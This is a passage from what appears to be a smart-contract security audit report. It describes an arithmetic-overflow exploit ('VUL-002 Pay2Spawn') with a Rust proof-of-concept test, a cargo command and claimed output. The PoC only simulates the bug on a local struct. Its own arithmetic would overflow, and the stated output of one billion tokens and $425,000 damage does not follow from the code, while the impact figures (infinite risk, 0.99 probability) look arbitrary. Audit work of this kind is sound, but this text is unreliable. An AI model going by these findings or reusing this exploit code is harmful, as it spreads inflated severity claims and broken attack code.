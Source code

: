 #### Economic Impact Calculation
```rust
fn calculate_catastrophic_impact() -> EconomicImpact {
    EconomicImpact {
        immediate_risk: f64::INFINITY,
        max_exposure: 1_750_000.0, // All protocol funds
        probability: 0.99, // Nearly certain if deployed
        business_impact: BusinessImpact::CompleteShutdown,
        reputation_damage: ReputationImpact::Catastrophic,
    }
}
```

---

### 🔴 VUL-002: Pay2Spawn Earnings Exploitation
**File**: `src/tests/vuln-002-pay2spawn-poc.rs`
**CVSS**: 9.5 | **Economic Impact**: $425,000

#### Exploit Execution
```bash
cargo test vuln_002_pay2spawn_exploitation_poc --release

# Expected Output:
# 💰 Tokens generated illegitimately: 1,000,000,000
# 💵 Economic damage: $425,000.00
# ⚠️  Attack vector: Arithmetic overflow
# ✅ Exploit successful: Unlimited token generation achieved
```

#### Attack Demonstration
```rust
#[test]
fn vuln_002_pay2spawn_exploitation_poc() {
    println!("🚨 VUL-002: PAY2SPAWN OVERFLOW EXPLOITATION");

    let mut user_account = UserAccount {
        spawn_count: 1000,
        token_balance: 10_000,
        total_earned: 50_000,
    };

    let initial_balance = user_account.token_balance;

    // Trigger arithmetic overflow attack
    let malicious_spawn_amount = u64::MAX - user_account.spawn_count + 500;

    // Simulate vulnerable pay_to_spawn function
    let result = user_account.spawn_count.wrapping_add(malicious_spawn_amount);

    // Overflow causes count to reset to small number
    assert!(result < 1000); // Massive overflow

    // Calculate illegitimate token rewards
    let reward_rate = 100; // Tokens per spawn
    let illegitimate_tokens = malicious_spawn_amount * reward_rate;

    user_account.token_balance += illegitimate_tokens;

    let tokens_generated = user_account.token_balance - initial_balance;
    let economic_damage = tokens_generated as f64 * 0.000425; // Token price

    assert!(economic_damage >= 425_000.0);

```